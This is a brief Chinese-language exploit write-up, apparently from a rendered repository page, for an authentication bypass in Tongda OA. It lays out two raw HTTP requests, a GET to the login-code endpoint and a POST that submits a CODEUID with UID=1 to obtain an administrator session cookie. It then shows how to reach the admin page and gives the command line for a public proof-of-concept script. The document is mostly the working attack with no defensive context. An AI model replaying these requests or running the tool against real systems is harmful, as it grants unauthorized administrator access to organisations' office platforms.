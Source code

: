 0x00 发送第一个请求包1

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

0x01 发送第二个请求包


```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1


```

获取cookie后访问管理员页面 /general/index.php
------------

可以利用工具获取cookie
借助工具：https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py

python3 POC.py -v 2017 -url http://xxxxxxxxxxxxxxxxxxxxxx
